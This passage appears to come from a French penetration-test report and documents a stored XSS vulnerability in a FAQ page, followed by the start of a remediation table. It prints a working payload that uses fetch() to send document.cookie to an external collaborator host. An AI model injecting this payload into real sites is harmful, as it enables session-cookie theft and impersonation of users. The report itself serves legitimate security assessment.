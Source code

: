 ![alert stored xss.](images/faq.png)

Exemple d'attaque : En utilisant une charge utile telle que ```<script> fetch('https://cfvont1lcy9qkyinwrvp2mxc43auymmb.oastify.com/', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>```, le script est injecté et stocké sur la page, se déclenchant chaque fois que quelqu'un accède à la section FAQ. Combiné à la vulnérabilité des faibles paramètres du cookie de session utilisateur, cette charge utile permet d'extraire le cookie de session et de l'envoyer vers un serveur potentiellement malveillant. Ce cas d'usage entraîne ainsi une usurpation d'identité, permettant à un attaquant d'utiliser la session de l'utilisateur ciblé.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-XSS-STORED : Assainir et filtrer toutes les entrées utilisateur}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Modéré} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{